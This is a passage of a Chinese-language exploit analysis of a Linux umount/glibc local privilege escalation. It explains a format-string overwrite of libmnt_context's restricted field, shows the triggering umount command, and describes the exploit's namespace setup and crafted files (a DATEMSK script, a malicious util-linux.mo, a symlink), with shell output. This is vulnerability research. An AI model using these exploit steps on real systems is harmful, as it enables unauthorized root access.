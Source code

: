       - 利用格式化字符串，umount栈中RSP存放的地址处的指针指向的```long int值(*(long *)$RSP)```会被修改为2。这会将该处存放的libmnt_context结构体的restricted字段修改为0, 从而让umount认为调用者是root用户，并成功进行后面的umount / 操作。

        这个步骤相关的umount调用栈:

        ```main->umount_one->make_exit_code->warnx(_("%s: not mounted"), tgt);```

        ( [格式化字符串](https://zh.wikipedia.org/wiki/格式化字符串) , [x64传参顺序](https://shimo.im/docs/g6CxTdpcQ8wcHkKc/) )

      ```shell
      test$ cd /proc/2299/cwd
      test$ LC_ALL=C.UTF-8 /bin/umount --lazy down /
      AAlnAAAAAAAAAA
      ```

      

### 4.EXP

#### a.EXP原理

**准备阶段(prepareNamespacedProcess)**

- 先通过clone启动一个拥有独立user/mount namespace的子进程
  子进程启动后，会先等待父进程将其uid和gid设置为0(当前namespace)
  然后mount tmpfs到/tmp目录，并切换到/tmp作为当前工作目录
  创建一个ready文件(O_WRONLY|O_CREAT|O_EXCL|O_NOFOLLOW|O_NOCTTY)
- 获取当前系统信息

- 在clone出的子进程工作目录(/proc/[pid]/cwd)中生成一系列文件和目录

生成的文件如下：

```shell
invincible@ubuntu:/proc/10013/cwd$ tree
.
├── DATEMSK
├── ready
└── (unreachable)
    ├── tmp
    │   ├── down -> ../x/../../AAA(省略...)A/AAA(省略...)A/A
    │   └── from_archive
    │       ├── C.UTF-8
    │       │   └── LC_MESSAGES
    │       │       └── util-linux.mo
    │       ├── X.x
    │       │   └── LC_MESSAGES
    │       └── X.X
    │           └── LC_MESSAGES
    │               └── util-linux.mo
    └── x


10 directories, 5 files 
invincible@ubuntu:/proc/10013/cwd$ cat DATEMSK 
#!/home/invincible/Desktop/test/exp
unused
invincible@ubuntu:/proc/10013/cwd$ file DATEMSK 
DATEMSK: a /home/invincible/Desktop/test/exp script, ASCII text executable

invincible@ubuntu:/proc/10013/cwd$ 
invincible@ubuntu:/proc/10013/cwd$ file ready 
ready: empty


invincible@ubuntu:/proc/10013/cwd$ file \(unreachable\)/tmp/from_archive/C.UTF-8/LC_MESSAGES/util-linux.mo 
```